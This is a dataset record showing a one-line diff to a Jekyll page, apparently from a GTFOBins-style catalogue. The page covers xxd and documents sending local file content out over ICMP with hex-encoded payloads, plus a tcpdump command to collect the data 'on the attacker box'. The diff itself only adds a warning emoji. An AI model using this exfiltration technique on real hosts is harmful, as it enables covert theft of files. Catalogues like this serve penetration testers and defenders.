

Before and after one commit to GTFOud/GTFOud.github.io, a Jekyll site: the page built from _gtfoud/xxd.md, in a window 1280 px wide, cut to the strip 339-817 px from the top of the page. Shown: the whole strip, without its empty margins (209-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update xxd.md

```diff
--- a/_gtfoud/xxd.md
+++ b/_gtfoud/xxd.md
@@ -4,7 +4,7 @@ functions:
     - description: |
         Capture ICMP packets embedded in ping requests.
         Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.
-        Increase the timeout flag based on the amount of data. parsing or reconstruction is required.
+        ⚠️ Increase the timeout flag based on the amount of data. parsing or reconstruction is required.
 
         Send local file content over ICMP using hex-encoded payloads.
       code: |
```
